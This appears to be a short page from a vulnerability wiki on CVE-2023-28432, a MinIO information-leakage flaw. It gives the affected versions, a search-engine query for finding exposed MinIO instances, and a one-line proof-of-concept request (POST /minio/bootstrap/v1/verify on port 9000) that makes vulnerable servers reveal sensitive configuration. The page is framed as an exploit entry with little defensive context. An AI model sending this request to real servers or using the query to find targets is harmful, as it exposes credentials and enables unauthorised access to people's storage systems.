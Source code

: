 # MinIO verify sensitive information leakage vulnerability CVE-2023-28432

## Vulnerability Description

Minio is a multi-cloud object storage framework. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">MinIO <= RELEASE.2023-03-20T20-16-18Z</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="minio"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1679976896036-1e230da8-12ab-4e6a-9681-d35b78c573a5.png)

Verify POC (default port: 9000)

```javascript
POST /minio/bootstrap/v1/verify
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1679976986271-1b32d86d-2c4b-47cb-9a33-8c8e91fce7f6.png)